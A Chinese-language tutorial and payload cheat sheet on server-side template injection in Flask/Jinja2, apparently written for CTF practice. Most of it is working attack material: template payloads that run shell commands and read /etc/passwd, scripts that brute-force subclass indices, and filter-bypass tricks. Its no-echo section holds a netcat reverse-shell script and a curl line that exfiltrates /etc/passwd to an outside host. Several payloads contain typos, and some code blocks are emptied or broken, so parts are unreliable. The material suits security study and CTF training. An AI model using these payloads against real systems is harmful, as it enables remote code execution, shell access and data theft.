# SSTI模版注入漏洞介绍

SSTI 是 Server-Side Template Injection即 服务端模板注入，它是一种安全漏洞攻击技术。当应用程序在服务器端使用模板引擎来呈现动态生成的内容时，如果用户可以控制模板引擎的输入，就可能导致 SSTI 漏洞。

在正常情况下，模板引擎被设计用于安全地将预定义的模板与数据进行组合，生成最终的输出。但是，SSTI 漏洞允许攻击者在应用程序的上下文中执行任意的服务器端代码。当攻击者能够通过用户输入或其他外部来源插入恶意的模板代码时，就会产生一系列问题。

---

## 判断模版类型方法



红线代表未执行，绿线代表执行，跟着这条路去执行指令最终就能判断出使用的模版类型



其他各种模版



---

# python jinjia2

## 漏洞示例

```0
from importlib.resources import contents
import time
from flask import Flask,request,render_template_string
app = Flask(__name__)
@app.route('/',methods = ['GET'])
def index():
	str = request.args.get('ben')
	html_str = '''					//str值通过format()函数填充到body中间
		<html>
		<head></head>
		<body>{0}</body>			//{}里可以定义任何参数
		</html>
		'''.format(str)
	return render_template_string(html_str)		//return render_template_string会把{}内的字符串当成代码指令
if __name__ == '__main__':
	app.debug = True
	app.run('127.0.0.1','8080')
```

原理：

这时我们传入`?ben={{7\*7}}，{{7\*7}}`会被当成命令执行。所以可以用`{{7\*7}}`去判断页面存不存在ssti漏洞。

Jinja2 在渲染的时候会把 `{{}}` 包裹的内容当做变量解析替换，所以当我们传入 `{{表达式}}` 时，表达式就会被渲染器执行。而我们随意输入的`{{7*7}}`也可以用来检验毫无过滤的ssti漏洞

这里导致漏洞是因为这里是先填充内容再进行模版渲染，所以就会导致我们传入的表达式被执行。

## python继承关系和魔术方法（关键）

### 继承关系演示

父类和子类

子类调用父类下的其他子类

Python flask脚本没有办法直接执行python指令



代码演示：

子类（父类）

```
class A:pass			
class B(A):pass
class C(B):pass
class D(B):pass
c = C()
```

```
print(c.__class__)		
//<class'__main__.C'> 
当前类C

print(c.__class__.__base__)		
//<class'__main__.B'>	
当前类C的父类B

print(c.__class__.__base__.__base__)	
//class'__main__.A'>	
父类的父类

print(c.__class__.__base__.__base__.__base__)		
//class'object'>	
层层递进

print(c.__class__.__mro__)	
//(class'__main__.C'><class'__main__.B'><class'__main__.A'><class'object'>)
罗列所有父类关系C->B->A->object

print(c.__class__.__base__.__subclasses__())
//[<class'__main__.C'><class'__main__.D'>]
B下的所有子类（数组形式）

print(c.__class__.__mro__[1].__subclasses__())
//同样是查看B类下有哪些子类

print(c.__class__.__base__.__subclasses__()[1])
//<class'__main__.D'>
调用子类D 
```

---

### 魔术方法

```
__class__	#查找当前类型的所属对象
__base__	#沿着父子类的关系往上走一个
__mro__		#查找当前类对象的所有继承类
__subclasses__()	#查找父类下的所有子类

__int__	#查看类是否重载，重载是指程序在运行时就已经加载好了这个模块到内存中，如果出现wrapper字眼，说明没有重载
__globals__	#函数会以字典的形式返回当前对象的全部全局变量
```

---

### **检查漏洞**





**常用注入模块**



---



## 利用ssti命令执行

```
__builtins__	提供对Python的所有"内置"标识符的直接访问
eval()	计算字符串表达式的值
popen()	执行一个shell以运行命令来开启一个进程
```

---

```
{{''.__class__.__base__.__subclasses__()}}
复制到notepad，把逗号','替换成'\n'（拓展）
然后查找常用注入模块
发现os._wrap_close在118行

调用os.__wrap_close
name{{''.__class__.__base__.__subclasses__()[117]}}		//注意列表的下标从0开始计数

查看该模块是否被重载
{{''.__class__.__base__.__subclasses__()[117].__int__}}
没有出现wrapper字眼，说明已经重载

查看全局变量，有哪些可以使用的方法函数等
{{''.__class__.__base__.__subclasses__()[117].__int__.__globals__}}

执行ls命令
{{''.__class__.__base__.__subclasses__()[117].__int__.__globals__['__builtins__']['eval']("__impot('os').popen('ls').read()")}}
这个比较复杂，因为这里利用的是builtins下的eval，然后加载os模块

可以直接调用popen，或者直接利用eval然后import
直接利用popen
{{''.__class__.__base__.__subclasses__()[117].__int__.__globals__['popen']('cat /etc/passwd').read()}}
这里的read是为了使命令执行有回显
```

---

##  ssti常用注入模块

原理：

调用父类其他子类下可利用模块、函数等



---

**常用注入模块**

1. **文件读取**
2. **内建函数eval执行命令**
3. **os模块执行命令**
4. **importlib类执行命令**
5. **linecache函数执行命令**
6. **subprocess.Popen类执行命令**

---

### 文件读取

#### 查找所需子类

```
查找子类_frozen_importlib_external.FileLoader对应的下标
<class'_frozen_importlib_external.FileLoader'>
```

**用python脚本查找**

**POST提交"name"的值，通过for循环查找所需字符串**

```
import requests
url = 'xxx'
for i in range(500):
	data = {"xxx":"{{''.__class__.__base__.__subclasses__()["+str(i)+"]}}"}
	try:
		response = requests.post(url,data=data)
		#print(response.text)
		if response.status_code == 200:
			if '_frozen_importlib_external.FileLoader' in response.text:
				print(i)
	except:
		pass
```

找到所需子类`_frozen_importlib_external.FileLoader`对应的编号

#### FileLoader的利用

**get_data方法**

```
["get_data"](0,"/etc/passwd")
调用get_data方法，传入参数0和文件路径
```

**读取文件**

```
{{''.__classa__.__mro__[1].__subclasses__()[79]["get_data"](0,"/etc/passwd")}}
```

**读取配置文件下的FLAG**

```
{{url_for.__globals__['current_app'].config.FLAG}}
{{get_flashed_messages.__globals__['current_app'].config.FLAG}}
```

### 内建函数eval执行命令

```
__builtins__提供对Python的所有"内置"标识符的直接访问
eval()计算字符串表达式的值
__import__加载os模块
popen()执行一个shell以运行命令来开启一个进程，执行cat /etc/passwd（system没有回显）
```

**内建函数：python在执行脚本自动加载的函数**

python脚本查看可利用内建函数eval的模块

```
import requests
url = 'http://node5.anna.nssctf.cn:21889/level/1'
for i in range(500):
	data = {"code":"{{''.__class__.__base__.__subclasses__()["+str(i)+"].__init__.__globals__['__builtins__']}}"}
	try:
		response = requests.post(url,data=data)
		#print(response.text)
		if response.status_code == 200:
			if 'eval' in response.text:
				print(i)
	except:
		pass
```

---

payload：

```
{{''.__class__.__bases__[0].__subclasses__()[65].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("cat /etc/passwd").read()')'}}
```

---

### os模块执行命令（常用）

在其他函数中直接调用os模块

通过config，调用os

```
{{config.__class__.__init__.__globals__['os'].popen('whoami').read()}}
```

通过url_for、lipsum，调用os

```
{{url_for.__globals__.os.popen('whoami').read()}}

{{lipsum.__globals__['os'].popen('cat /app/flag').read()}}

加载os然后执行命令
{{lipsum.__globals__['__builtins__']['__import__']('os')['popen']('whoami').read()}}
```

在已经加载了os模块的子类里直接调用os模块

```
{{''.__class__.__bases__[0].__subclasses__()[199].__init__.__globlas__['os'].popen("ls -l /opt").read()}}
```

---

**python脚本查找已经加载os模块的子类**

```
import requests
url = 'xxx'
for i in range(500):
	data = {"name":"{{().__class__.__base__.__subclasses__()["+str(i)+"]}}"}
	try:
		response = requests.post(url,data=data)
		#print(response.text)
		if response.status_code == 200
			if 'os._wrap' in response.text:
				print(i)
	except:
		pass
```

会找到所有加载了os模块的子类

这里假设426编号的子类加载了os模块

找到之后执行命令payload

```
{{().__class__.__base__.__subclasses__()[426].__init__.__globals__['os'].popen('id')}}
```

### importlib类执行命令（用的不多）

可以加载第三方库，使用load_module加载os

**python脚本查找_frozen_importlib.BuiltinImporter**

```
import requests
url = 'xxx']
for i in range(500):
	data = {"name":"{{().__class__.__bases__[0].__subclasses__()["+str(i)+"]}}"}
	try:
		response = requests.post(url,data=data)
		if response.status_code == 200:
			if '_frozen_importlib.Builtinlmporter' in response,text:
				print(i)
	except:
		pass
```

假设这里找到importlib类为69编号

然后可以加载第三方库，使用load_module加载os

和前面几种方法不一样，前面几种是类中本身存在os模块，这里是去导入该模块，相当于import os

```
{{[].__class__.__base__.__subclasses__()[69]["load_module"]("os")["popen"]("ls -l /opt").read()}}
```

---

### linecache函数执行命令

linecache函数可用于读取任意一个文件的某一行，而这个函数中也引入了os模块，所以我们也可以利用这个linecache函数去执行命令

python脚本查找linecache

```
import requests
url = 'xxx'
for i in range(500):
	data = {"name":"{{().__class__.__bases__[0].__subclasses__()["+str(i)+"].__init__.__globals__}}"}
	try:
		response = requests.post(url,data=data)
		if response.status_code == 200
			if 'linecache' in response.text:
				print(i)
	except:
		pass
```

利用linecache函数执行命令

```
{{[].__class__.__base__.__subclasses__()[191].__init__.__globals__['linecache']['os'].popen("ls -l /").read()}}
```

```
xxxxxxxxxx {{[].__class__.__base__.__subclasses__()[192].__init__.__globals__.linecache.os,popen("ls -l /").read()}}
```

---

### subprocess.Popen类执行命令

从python2.4版本开始，可以用subprocess这个模块来产生子进程，并连接到子进程的标准输入/输出/错误中去，还可以的到子进程的返回值。

subprocess 意在替代其他几个老的模块或者函数，比如：os.system、os.popen 等函数。

​	python脚本查找subprocess.Popen

```
import requests
url = 'xxx'
for i in range(500):
	data = {"name":"{{().__class__.__bases__[0].__subclasses__()["+str(i)+"]}}"}
	try:
		response = requests.post(url,data=data)
		if response.status_code == 200:
			if 'subprocess.Popen' in response.text:
				print(i)
	except:
		pass
```

假设这里查到subprocess.Popen类的编号为200

然后构造payload执行命令

```
{{[].__class__.__base__.__subclasses__()[200]('ls /',shell=True,stdout=-1),communicate()[0].strip()}}
```

常用注入模块总结



---

# ssti绕过方法

## 绕过过滤双大括号

**``使用介绍**

``是属于flask的控制语句，且以``结尾

可以通过在控制语句定义变量或者写循环，判断。

---

解题思路：

``` 
判断{{}}被过滤
尝试
判断语句能否正常执行
Benben

Benben
有回显Benben说明 ''.__class__有内容

Benben
如果有回显Benben则说明命令正常执行
```

这里有点像sql盲注，也是用的if条件判断

**构造python脚本查询可使用"popen"的子类编号**

```
import requests
url = "xxx"
for i in range(500):
	try:
		data = {"code":'Benben'}
		response = requests.post(url,data=data)
		if response.status_code == 200:
			if "Benben" in response.text:
				print(i,"--->",data)
				break
	except:
		pass
```

这里用脚本查到编号为133

**然后构造payload：**

```
将脚本输出的payload部分提出来然后使用print()执行命令就能够回显了


```

---

# for循环+if查找可用模块并调用

## 调用catch_warnings的eval模块

```


  
  
    
      {{ b['eval']('__import__("os").popen("id").read()') }}
    
  
  




或者


  
    {{ c.__init__.__globals__['__builtins__'].eval('__import__("os").popen("id").read()') }}
  

```

## 直接查找os模块并调用

```

  
    {{ c.__init__.__globals__['os'].popen('env').read() }}
  

```

## 用 `subprocess` **直接执行**

```

  
    {{ c('id', shell=True, stdout=-1).communicate()[0] }}
  

```

## _wrap_close模块

```

  
    {{ c.__init__.__globals__.popen('id').read() }}
  

```

## load_module调用

```

  
    {{ c.load_module('os').popen('id').read() }}
  

```

## 无回显ssti

**ssti盲注思路**

1、反弹shell

通过rce反弹一个shell出来绕过无回显的页面

2、带外注入

通过requestbin或dnslog的方式将信息传到外界

3、纯盲注

### 反弹shell

**没有回显，**

**直接使用脚本批量执行希望执行的命令**

```
import requests

url = 'xxx'			#目标主机地址
for i in range(300):
	try:
		data = {"code":'{{"".__class__.__base__.__subclasses__()['+str(i)+'].__init__.__globals__["popen"]("netcat 192.168.1.161 7777 -e /bin/bash").read()}}'}
		response = requests.post(url,data=data)	#查找包含popen的子类来执行命令
	except:
		pass
```

for i in range循环执行

当遇到包含popen的子类时

直接执行netcat 192.168.1.161 7777 -e /bin/bash

监听主机收到反弹shell进入对方命令行界面

---

### 带外注入

此处使用wget()方法来带外想要知道的内容

也可以用dnslog或者nc

```
import requests

url = "xxx"

for i in range(300):
	try:
		data = {"code":'{{"".__class__.__base__.__subclasses__()['+str(i)+'].__init__.__globals__["popen"]("curl http://192.168.1.161/`cat /etc/passwd`").read()}}'}
		response = requests.post(url,data=data)
	except:
		pass
```

同时kali开启一个python http监听

```
python3 -m http.server 80
```

---

### 纯盲注

```
#!/usr/bin/env python3
# coding=utf-8
 
import requests
 
#注意: 这里只适用于 > 的情况
flag = ""
start = 1  # 第几个字符
while True:
    low = 32 
    high = 126
    mid = (low + high) // 2  # 整数除法
    while low < high:
        url = "http://0b7c2aed-1a0a-4c5c-9829-2e1721548848.challenge.ctf.show/?name="
        payload =f"{}{}lovone{}"
 
        url_payload = url + payload
 
        # 页面返回正常的特征值
        identify_str = "lovone"
 
        # 请求
        response = requests.get(url=url_payload)
        # print(payload)
        if identify_str in response.text:  # 页面返回正常
            low = mid + 1
        else:  # 页面返回异常
            high = mid
        mid = (low + high) // 2 
        if mid <= 32 or mid >= 126:
            break
    if chr(mid) == ' ':
        break
    flag += chr(mid)
    print(flag)
    start += 1
```

---

### 写入静态文件

```
先尝试写入
{{lipsum.__globals__['os'].popen('echo "test" >/app/static/1.txt').read()}}

然后访问url/static/1.txt显示test
说明成功写入static静态目录

将flag写入到static静态目录
{{lipsum.__globals__['os'].popen('echo `cat /app/flag` >/app/static/1.txt').read()}}

然后访问url/static/1.txt即可拿到flag
```

---

## getitem绕过中括号过滤

获取键值或下标

```
dict['__builtins__']
dict.__getitem__('__builtins__')
dict.pop('__builtins__')
dict.get('__builtins__')
dict.setdefault('__builtins__')
list[0]
list.__getitem__(0)
list.pop(0)
```

原文链接：https://blog.csdn.net/2401_84009749/article/details/137661728

### \_\_getitem\_\_()魔术方法

getitem()是python的一个魔术方法，

对字典使用时，传入字符串，返回字典相应键所对应的值；

当对列表使用时，传入整数返回列表对应索引的值。

简单来说就是只要输入键就会返回值给我们。

绕过原理：

例如：

```
__subclasses__()[117]	这里会被过滤，因为使用了中括号

因为__subclasses__()返回的是列表，所以我们可以用
__subclasses__().__getitem__(117)
这样等价于上面那个命令，并且没有使用中括号，所以就能成功绕过
```

---

### WAF过滤[]例题

```
{{}}
#先检测双大括号是否被过滤
{{''}}或{{""}}等
#检测是否有过滤符号
{{''.__class__}}
#检测是否有下划线过滤或者特殊字符
{{''.__class__.__base__.__subclasses__()[]}}
#到此步骤后发现有waf字样
```

使用`__getitem()__`构造payload：

python脚本

```
import requests
url = 'xxx'
for i in range(500):
	data = {"code":'{{"".__class__.__base__.__subclasses__().__getitem__('+str(i)+')}}'}
	try:
		response = requests.post(url,data=data)
		if response.status_code == 200:
			if "_wrap_close" in response.text:
				print(i,"---->",respones.text)
				break
	except:
		pass
```

构造最终payload：

```
{{''.__class__.__base__.__subclasses__().__getitem__(117).__init__.__globals__.__getitem__('popen')('cat /etc/passwd').read()}}

更简便的payload。
{{lipsum.__globals__.get('os').popen('ls').read()}}
```

---

## request绕过单双引号过滤

**查找'os._wrap_close'模块所在位置**

python脚本

```
import requests
url = "xxx"
for i in range(500):
	data = {"code":'{{().__class__.__base__.__subclass__()['+str(i)+']}}'}
	try:
		response = requests.post(url,data=data)
		if response.status_code == 200:
			if "_wrap_close" in response.text:
				print(i,"---->",response.text)
	except:
		pass
```

---

**request**

request在flask中可以访问基于HTTP请求传递的所有信息

此request并非python的函数，而是在flask内部的函数

```
request.args.key	获取get传入的key的值
request.values.x1	所有参数
request.cookies		获取cookies传入参数
request.headers		获取请求头请求参数
request.form.key	获取post传入参数
			(Content-Type:application/x-www-form-urlencoded或multipart/form-data)
request.data		获取post传入参数（Content-Type:a/b）
request.json		获取post传入json参数（Content-Type:application/json）
```

通过request各种形式的传参



可以通过构造带参数的url，配合request获取参数的内容来组成想要提交的指令从而绕过单双引号的使用

假如我们想实现：

```
{{().__class__.___base_}.__subclasses__()[117].__init__.__globals__['popen']('cat /etc/passwd').read()}
```

但单引号被过滤了

因此`['popen']`和cat命令就实现不了

我们就能用request来把popen传进去

```
{{().__class__.___base__.__subclasses__()[117].__init__.__globals__[request.args.key1](key2).read()}

然后通过get传参?key1=popen&key2=cat /etc/passwd，这样就不用使用引号了

也能用post提交
只要将request.args.key改为request.form.key就行了，然后用hackbar提交
```

通过Cookie提交也可以，换成这种类型即可

request.cookies.k1

Cookie传参需要将参数用分号隔开

```
Cookie：k1=popen;k2=cat /etc/passwd
用hackbar提交
```

---

## 过滤器绕过下划线过滤

### 过滤器

1、过滤器通过管道符号（|）与变量连接，并且在括号中可能有可选的参数。

### **flask常用过滤器**

```
length	# 获取一个序列或者一个字典的长度并将其返回
int()	# 将值转换为int类型
float()	# 将值转换为float类型
lower()	# 将字符串转换为小写
upper()	# 将字符串转换为大写
reverse()	# 反转字符串
replace(value,old,new)	# 将value中的old替换为new
list()	# 将变量转换为列表类型
string()	# 将变量转换成字符串类型
join()	# 将一个序列中的参数值拼接成字符串，通常有python内置的dict()配合使用
attr()	# 获取对象的属性
```

---

### attr绕过下划线过滤

#### **1.使用request方法**

```
先选好完整的payload：
{{''.__class__.__base__.__subclasses__().__getitem__(117).__init__.__globals__.__getitem__('popen')('cat /etc/passwd').read()}}

GET提交：
URL?cla=__class__&bas=__base__&sub=__subclasses__&ini=__init__&glo=__globals__&gei=__getitem__

POST提交：
code={{()|attr(request.args.cla)|attr(request.args.bas)|attr(request.args.sub)()|attr(request.args.gei)(117)|attr(request.args.ini)|attr(request.args.glo)|attr(request.args.gei)('popen')('cat /etc/passwd')|attr('read')()}}
```

注意：

如果用了attr过滤器就不能用.来连接payload了。

如果要用下标不能在get传参中写，直接在后面加(数字)

---

#### 2、使用unicode编码

```
